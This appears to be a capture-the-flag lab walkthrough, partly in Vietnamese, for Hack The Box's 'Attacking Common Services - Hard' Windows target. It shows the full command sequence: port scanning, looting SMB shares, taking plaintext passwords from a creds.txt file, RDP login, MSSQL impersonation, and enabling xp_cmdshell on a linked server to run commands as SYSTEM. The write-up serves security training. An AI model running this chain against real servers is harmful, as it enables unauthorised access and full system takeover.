



# Attacking Common Services - Hard

---

The third server is another internal server used to manage files and working material, such as forms. In addition, a database is used on the server, the purpose of which we do not know.


### NMAP

```zsh
❯ sudo nmap -sS -T 4 --min-rate 3000 -p- 10.129.203.10 -Pn -v
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-09 05:10 EDT
Initiating Parallel DNS resolution of 1 host. at 05:10
Completed Parallel DNS resolution of 1 host. at 05:10, 0.06s elapsed
Initiating SYN Stealth Scan at 05:10
Scanning 10.129.203.10 [65535 ports]
Discovered open port 3389/tcp on 10.129.203.10
Discovered open port 445/tcp on 10.129.203.10
Discovered open port 135/tcp on 10.129.203.10
Discovered open port 1433/tcp on 10.129.203.10
Completed SYN Stealth Scan at 05:10, 44.06s elapsed (65535 total ports)
Nmap scan report for 10.129.203.10
Host is up (0.25s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 44.18 seconds
           Raw packets sent: 131094 (5.768MB) | Rcvd: 46 (2.236KB)
```

#### Questions

+ 0  What file can you retrieve that belongs to the user "simon"? (Format: filename.txt)

```zsh
❯ smbmap -u simon -H 10.129.203.10
```



There are 3 users in IT group:
```zsh
❯ smbmap -u simon -H 10.129.203.10 -r Home/IT
```



We got the file random.txt belong to Simon

```zsh
❯ smbmap -u simon -H 10.129.203.10 -r Home/IT/Simon
```



### Get some files

```zsh
❯ smbmap -u simon -H 10.129.203.10 --download Home/IT/Simon/random.txt
❯ smbmap -u simon -H 10.129.203.10 --download Home/IT/Fiona/creds.txt
❯ smbmap -u simon -H 10.129.203.10 --download Home/IT/John/information.txt
❯ smbmap -u simon -H 10.129.203.10 --download Home/IT/John/notes.txt
❯ smbmap -u simon -H 10.129.203.10 --download Home/IT/John/secrets.txt
```

+ 0  Enumerate the target and find a password for the user Fiona. What is her password?

### MSSQL

```zsh
❯ cat 10.129.203.10-Home_IT_Fiona_creds.txt
Windows Creds

kAkd03SA@#!
48Ns72!bns74@S84NNNSl
SecurePassword!
Password123!
SecureLocationforPasswordsd123!!
❯ xfreerdp3 /v:10.129.203.10 /u:fiona /p:48Ns72!bns74@S84NNNSl
zsh: event not found: bns74@S84NNNSl
❯ xfreerdp3 /v:10.129.203.10 /u:fiona /p:'48Ns72!bns74@S84NNNSl'
```
+ 0  Once logged in, what other user can we compromise to gain admin privileges?

Thử query user trên máy mục tiêu nhưng chỉ có mỗi user fiona, chúng ta không thể ăn cắp phiên thông qua rdp, giờ chỉ còn mssql là đáng nghi nhất.

```zsh
❯ sqsh -S 10.129.203.10 -U .\\fiona -P '48Ns72!bns74@S84NNNSl' -h
```

```sql
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> go

        john
        simon
```

Let's verify if our current user has the sysadmin role:

```sql
1> EXECUTE AS LOGIN = 'john'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> go
```

Không có quyền sysadmin, hmm vậy nó phải có ý nghĩa gì đó khi có thể mạo danh được `john`

### LINKED SERVER MSSQL

```sql
1> SELECT srvname, isremote FROM sysservers
2> go

        WINSRV02\SQLEXPRESS
               1

        LOCAL.TEST.LINKED.SRV
               0

```

+ 2  Submit the contents of the flag.txt file on the Administrator Desktop.


```sql
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
2> go
```

Như vậy chúng ta có quyền sysadmin trong máy chủ được liên kết



Bây giờ hãy thực thi lệnh và đọc file để lấy nội dung của flag.txt

```sql
1> EXEC ('EXEC sp_configure ''show advanced options'', 1; RECONFIGURE;') AT [LOCAL.TEST.LINKED.SRV]
2> go
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
1>  EXEC ('EXEC sp_configure "xp_cmdshell", 1; RECONFIGURE;') AT [LOCAL.TEST.LINKED.SRV]
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
1> EXEC ('EXEC xp_cmdshell “whoami”') AT [LOCAL.TEST.LINKED.SRV]
2> go
Msg 102, Level 15, State 1
Server 'WIN-HARD\SQLEXPRESS', Line 1
Incorrect syntax near '“'.
1> EXEC ('EXEC xp_cmdshell "whoami"') AT [LOCAL.TEST.LINKED.SRV]
2> go

        nt authority\system

        NULL                                                                                                                                                          
```

Ok giờ đơn giản là đọc file flag.txt thôi

```sql
1> EXEC ('EXEC xp_cmdshell "type C:\Users\Administrator\Desktop\flag.txt"') AT [LOCAL.TEST.LINKED.SRV]
2> go

        HTB{46u$!n9_l!nk3d_$3rv3r$}
```
